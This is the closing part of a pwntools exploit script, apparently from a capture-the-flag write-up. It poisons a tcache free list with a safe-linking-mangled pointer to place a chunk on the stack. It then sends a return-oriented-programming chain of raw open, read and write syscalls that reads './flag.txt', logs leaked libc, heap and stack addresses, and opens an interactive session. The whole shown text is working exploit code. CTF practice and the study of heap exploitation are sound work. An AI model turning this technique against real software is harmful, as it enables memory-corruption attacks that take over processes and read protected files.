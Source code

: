 ```python
    for i in range(7):
        alloc(i, 0x70, b'a\n')
    alloc(7, 0x70, p64(mangle(heap+0x1b10, rip-0x8)) + b'\n')
    alloc(8, 0x70, b'./flag.txt\x00\n')
    alloc(9, 0x70, b'a\n')

    payload = flat([
        0x0,
        POP_RDI,
        0x0,
        POP_RSI,
        stack-0x100,
        POP_RDX_RBX,
        0x400,
        0x0,
        POP_RAX,
        0x0,
        SYSCALL_RET,
    ])
    pause() if args.GDB else None
    alloc(10, 0x70, payload + b'\n')

    payload = flat([
        POP_RDI,
        heap+0x1f50,
        POP_RSI,
        0x0,
        POP_RAX,
        0x2,
        SYSCALL_RET,

        POP_RDI,
        0x3,
        POP_RSI,
        stack,
        POP_RDX_RBX,
        0x100,
        0x0,
        POP_RAX,
        0x0,
        SYSCALL_RET,

        POP_RDI,
        0x1,
        POP_RAX,
        0x1,        
        SYSCALL_RET
    ])
    io.send(payload)

    log.success("libc base: %#x", libc.address)
    log.success("heap base; %#x", heap)
    log.success("stack: %#x", stack)
    log.success("rip: %#x", rip)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}

